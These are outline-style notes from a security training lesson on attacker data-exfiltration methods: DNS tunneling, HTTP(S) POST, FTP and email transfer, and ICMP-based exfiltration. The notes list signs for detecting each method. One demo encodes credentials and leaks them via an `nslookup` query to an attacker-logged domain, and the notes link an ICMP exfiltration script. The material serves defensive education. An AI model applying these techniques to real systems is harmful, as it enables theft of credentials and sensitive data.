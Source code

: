# 49. Explain Exfiltration Techniques

Trainer: Knox Hutchinson


## Introducing Attacker Exfiltration Techniques

- Learning goals
  - DNS tunneling exfiltration
  - HTTP exfiltration
  - file transfer
  - text-based protocols


## DNS Tunneling Exfiltration

- DNS exflitration overview
  - capturing with  Wireshark
  - pkt: src=10.10.21.16, dst=10.10.21.1, prot=DNS, info=Standard query 0xe4d1 A address
  - pkt: src=10.10.21.1, dst=10.10.21.16, prot=DNS, info=Standard query response 0xe4d1
    - L7: Domain Name System (response)
      - Queries: adservice.google.com: TYpe A, Class IN; Name = adservice.google.com
      - Answers
        - advervice.google.com: Type CNAME, class IN, cname pagedad46.l.doubleclick.net
        - pagead46.l.doubleclick.net: type A, class IN, addr 64.233.185.154
        - pagead46.l.doubleclick.net: type A, class IN, addr 64.233.185.155
        - ...
  - attacker
    - MitM attacks
    - malware in client to inset and send sensitive info
  - possible info exflitrated: username, password, file-shared locations, GPOs


- Demo: data exflitated by DNS queries
  - browsing https://www.base64encode.org: encode 'username=knox:password=cisco -> encode -> hex string abc
  - cmd: `nslookup abc.knoxsdata.com`
  - DNS query logged by attacker
  - decode the hex string abc back to username and password



## HTTP(S) Exfiltration

- HTTP(S) exfiltration overview
  - client able to access SQL DB
  - extract sensitive info from SQL DB, e.g., SELECT queries
  - convert the sensitive info into plan text, e.g., JSON, XML, etc.
  - using HTTP POST request to post the sensitive info to malicious web site
  - sign of data exfiltration: high volume of I/O, CPU utilization, or outbound data transmission


- Demo: HTTPS exfiltration
  - sensitive info embedded in encrypted payload
  - pkt: src=108.177.122.94, dst=10.10.21.16, prot=TLSv1.3, info=Application Data
    - L7: Transport Layer Security - TLSv1.3 Record Layer: Application Data PProtocol: http-over-tls
  - sign of exflitration: high volume of traffic w/ same src and dst



## Outbound File Transfers

- Outbound file transfer overview
  - email, ftp, etc. used to exfiltrate data
  - easiest way: sending data in nature
  - usually accessing shared files and database
  - malware in client
    - sending file to FTP, FTPS or SFTP servers
    - attaching file in emails
  - solution: AMP for endpoints, abnormal at NGFW


## Text-Based Protocols

- Text-based protocol overview
  - examples: ICMP, NTP, etc.
  - embedded sensitivity data in payload of protocol exchange
  - example script:
    - [ICMPExfil](https://github.com/martinoj2009/ICMPExfil)
    - sending w/ ICMP one character a time


## Recapping Exfiltration Techniques

- Symmary
  - malware sending sensitive data to attackers
  - types of exfiltration
    - DNS tunneling
    - HTTP(S) POST
    - file transfer via FTP or emails
    - plain-text protocols


